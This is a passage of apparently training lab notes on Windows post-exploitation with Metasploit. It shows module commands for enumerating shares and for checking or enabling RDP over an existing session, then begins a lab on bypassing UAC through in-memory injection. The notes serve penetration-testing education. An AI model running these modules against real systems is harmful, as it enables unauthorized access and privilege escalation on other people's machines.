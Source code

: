 - Enumerate any shares

```bash
search enum_shares
use post/windows/gather/enum_shares
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_shares](.gitbook/assets/image-20230419194507578.png)

- Check if RDP is enabled

```bash
search rdp platform:windows
use post/windows/manage/enable_rdp
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](.gitbook/assets/image-20230419194637948.png)

------

## Lab 2 - UAC Bypass

> 🔬 [UAC Bypass: Memory Injection (Metasploit)](https://attackdefense.com/challengedetailsnoauth?cid=2210)
>
> - Target IP: `10.2.18.116`
> - Metasploit [**`Windows Escalate UAC Protection Bypass (In Memory Injection)`**](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/) module
>   - *This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.*
